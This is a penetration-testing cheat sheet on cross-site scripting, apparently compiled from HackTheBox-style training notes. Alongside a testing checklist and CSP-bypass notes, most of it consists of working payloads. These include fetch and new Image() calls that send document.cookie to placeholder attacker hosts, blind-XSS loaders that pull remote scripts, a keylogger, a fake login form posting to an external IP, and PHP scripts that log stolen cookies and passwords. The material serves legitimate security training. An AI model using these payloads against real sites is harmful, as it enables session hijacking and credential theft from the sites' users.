

# Cross-Site Scripting (XSS)

## Checklist

- [ ] Enter unique string in every input field - check where it's being reflected in the DOM
- [ ] Check input in GET and POST requests
- [ ] Be sure to check the context in which it's reflected
  - input
  - textarea
  - JS
  - HTML attribute
  - title
  - style
  - etc.
- [ ] It may be reflected somewhere that isn't visible on the screen
- [ ] Try to escape the context where input is reflected
  - Example: `?color=%23FFFFFe;}</style><script>alert(1)</script>`
  - Injecting into JavaScript context example: `;alert(1);//`
  - If this doesn't work, try adding another attribute to the tag where input is reflected.
- [ ] Check for filter evasion
  - Case sensitivity
  - Filtered non-recursively
  - Try different encodings
  - Try leaving off closing bracket
- [ ] Check content-type

> [!tip]
>
> This is particularly important for API endpoints
>
> If the content type doesn't match what is actually returned (e.g., text/html with JSON returned from an API), try accessing the endpoint directly and see if HTML injection is possible.

- [ ] Check for XSS in any markdown input fields
  - Links are good for this
  - Try different encodings, casing, etc.
  - Try smuggling special characters in...adding new attributes, etc.
- [ ] Look for areas where input is being stored and served to all users
- [ ] Check for blind XSS
  - Something that fires on a backend application
    - Customer service page
    - Shipping page
    - Admin dashboard
  - What are backend users likely to see?
    - Service ticket
    - Reporting a post or user
    - etc.

## Content Security Policy

CSP is a secondary protection mechanism that helps protect against XSS, Clickjacking, and other types of attacks.

### CSP Bypasses

[CSP Bypass Search](https://cspbypass.com/)
[CSP Evaluator](https://csp-evaluator.withgoogle.com/)

### CSP URI Scheme Bypass

May be able to use something like data.

Example:

```html
<script src=data:text/javascript,alert(1)></script>
```

```html
<object data="data:text/html,<script>alert(1)</script>"></object>
```

### CSP JSONP Bypass

JSON with padding.

Allows an application to retrieve JSON data from another domain.

We can abuse the callback function. Example:

```html
<script src=https://www.youtube.com/oembed?url=https://www.youtube.com/watch?v=mCn54oGQH0w&callback=alert(1)></script>
```

### CSP Upload Bypass

If we can find a way to upload a script to the same domain, then it will bypass a `script-src: self` directive.

Check if `.js` files are allowed on any upload form.

Example:

```html
Test message<script src=https://z2c8lw3i.eu4.ctfio.com/csp-upload/uploads/ac27121ae671cfeb22e3eb472e0e1997.js></script>
```

## postMessage

[postMessage](postmessage.md)

A way for different browser windows to be able to talk to each other.

- [ ] Check that postmessage orgin is validated
- [ ] Check for misconfigured regex

Example:

```html
<script>
  window.addEventListener("message",function(event){
  	if (event.data.hasOwnProperty('msg')) {
  		if( /(http:|https:)\\\\/\\\\/([a-z0-9.]{1,}).ctfio.com/.test( event.origin ) ) {
  			document.getElementById('message').innerHTML = event.data.msg;
  		}else{
  			alert("You're not allowed to send from here!");
  		}
  	}
  });
</script>
```

Note the mistake in the regex. The `.` character matches any character except for line separators. This allows us to register a domain like [eviltestctfio.com](http://eviltestctfio.com/) that would bypass this check.

[regex101](https://regex101.com/)



Additionally, there's nothing to indicate that the `ctfio.com` is the end of the string, so something like `test.ctfio.com.hacker.com` would also work.

## Payloads

- https://github.com/payload-box/xss-payload-list
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md

### Building Requests

```jsx
let xhr = new XMLHttpRequest()
xhr.open('GET','http://localhost/endpoint',true)
xhr.send('email=update@email.com’)
```

```jsx
fetch("http://localhost/endpoint");
```

### Stealing Cookies

```jsx

```

```jsx
fetch(`//__ATTACKER_SERVER__/?data=${btoa(document.cookie)}`);
```

### Accessing Local & Session Storage

```jsx
let localStorageData = JSON.stringify(localStorage);
```

```jsx
let sessionStorageData = JSON.stringify(sessionStorage);
```

### Saved Credentials

```jsx
// create the input elements

let usernameField = document.createElement("input");
usernameField.type = "text";
usernameField.name = "username";
usernameField.id = "username";
let passwordField = document.createElement("input");
passwordField.type = "password";
passwordField.name = "password";
passwordField.id = "password";

// append the elements to the body of the page
document.body.appendChild(usernameField);
document.body.appendChild(passwordField);

// exfiltrate as needed (we need to wait for the fields to be filled before exfiltrating the information)
setTimeout(function () {
  console.log("Username:", document.getElementById("username").value);
  console.log("Password:", document.getElementById("password").value);
}, 1000);
```

### Session Riding

```jsx
let xhr = new XMLHttpRequest();
xhr.open('POST','http://localhost/updateprofile',true);
xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
xhr.send('email=updated@email.com’);
```

### Keylogging

```jsx
document.onkeypress = function (e) {
  get = window.event ? event : e;
  key = get.keyCode ? get.keyCode : get.charCode;
  key = String.fromCharCode(key);
  console.log(key);
};
```

### Fake Form

```javascript
document.write('<h3>Please login to continue</h3><form action=http://10.10.14.4:8080><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();<!--
```

Use with a fake server script

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

### Defacement

```html
<script>
  document.getElementsByTagName("body")[0].innerHTML =
    '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by  </p></center>';
</script>
```

## DOM-Based XSS

### Common Sources (where attacker-controlled data enters)

- `location.hash`
- `location.search`
- `location.href`
- `document.referrer`
- `document.URL`
- `window.name`
- `postMessage` data
- Web Storage (`localStorage`, `sessionStorage`)

### Common Sinks (where data is dangerously used)

- `innerHTML` / `outerHTML`
- `document.write()` / `document.writeln()`
- `eval()`
- `setTimeout()` / `setInterval()` with string args
- `Function()` constructor
- `element.setAttribute()` on event handlers
- `jQuery.html()` / `$()` / `.append()`
- `location.href` / `location.assign()` / `location.replace()`

### Testing Approach

- [ ] Search the JS source for known sinks
- [ ] Trace back from each sink to find if user-controlled sources reach it
- [ ] Use browser DevTools to set breakpoints on sink functions
- [ ] Check for DOM clobbering opportunities (`id` or `name` attributes overriding global variables)

## Blind XSS

Sample payloads - From HTB

```html
<script src=http://OUR_IP></script>

'><script src=http://OUR_IP></script>

"><script src=http://OUR_IP></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>

<script>$.getScript("http://OUR_IP")</script>
```

Cookie Stealer - From HTB

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Try hosting our own script

```js
new Image().src = "http://OUR_IP/index.php?c=" + document.cookie;
```

## Common Encoding Bypasses

| Filter                | Bypass                                                                          |
| --------------------- | ------------------------------------------------------------------------------- |
| `<script>` blocked    | `<ScRiPt>`, `<scr<script>ipt>`, `<svg/onload=alert(1)>`                         |
| `alert` blocked       | `confirm(1)`, `prompt(1)`, `alert&#40;1&#41;`, `` alert`1` ``                   |
| `on*` events blocked  | Try less common events: `onfocus`, `oncontentvisuallynoncontiguous`, `ontoggle` |
| Parentheses blocked   | `` alert`1` ``, `throw/a]SOME/,Uncaught(1)` , `onerror=alert;throw 1`           |
| Quotes blocked        | `String.fromCharCode(88,83,83)`, `/string/.source`                              |
| Spaces blocked        | `/**/`, `/`, `%09`, `%0a`, `%0d`                                                |
| `javascript:` blocked | `java%0ascript:`, `\x6Aavascript:`, `javascript&colon;`                         |

## Commands

| Code                                                                                          | Description                       |
| --------------------------------------------------------------------------------------------- | --------------------------------- |
| **XSS Payloads**                                                                              |                                   |
| `<script>alert(window.origin)</script>`                                                       | Basic XSS Payload                 |
| `<plaintext>`                                                                                 | Basic XSS Payload                 |
| `<script>print()</script>`                                                                    | Basic XSS Payload                 |
| ``                                                   | HTML-based XSS Payload            |
| `<script>document.body.style.background = "#141d2b"</script>`                                 | Change Background Color           |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image           |
| `<script>document.title = 'HackTheBox Academy'</script>`                                      | Change Website Title              |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                | Overwrite website's main body     |
| `<script>document.getElementById('urlform').remove();</script>`                               | Remove certain HTML element       |
| `<script src="http://OUR_IP/script.js"></script>`                                             | Load remote script                |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`               | Send Cookie details to us         |
| **Commands**                                                                                  |                                   |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`                           | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80`                                                                            | Start `netcat` listener           |
| `sudo php -S 0.0.0.0:80`                                                                      | Start `PHP` server                |

---

## References

- [PortSwigger XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [PayloadsAllTheThings - XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [HackTricks - XSS](https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/index.html)
- [payload-box](https://github.com/payload-box/xss-payload-list)
